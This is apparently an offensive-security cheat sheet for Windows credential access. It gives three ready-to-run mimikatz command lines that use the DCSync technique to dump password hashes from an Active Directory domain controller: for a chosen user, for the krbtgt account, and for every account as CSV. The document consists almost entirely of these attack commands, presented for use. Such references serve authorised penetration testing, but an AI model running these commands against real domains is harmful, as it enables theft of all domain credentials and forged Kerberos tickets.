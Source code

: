 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## dcsync - user 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /user:<domain_netbios>\<user>" "exit"
```

## dcsync - get krbtgt
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /user:<domain_netbios>\krbtgt" "exit"
```

## dcsync - all (krbtgt/Administrator)
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain_fqdn> /all /csv" "exit"
```
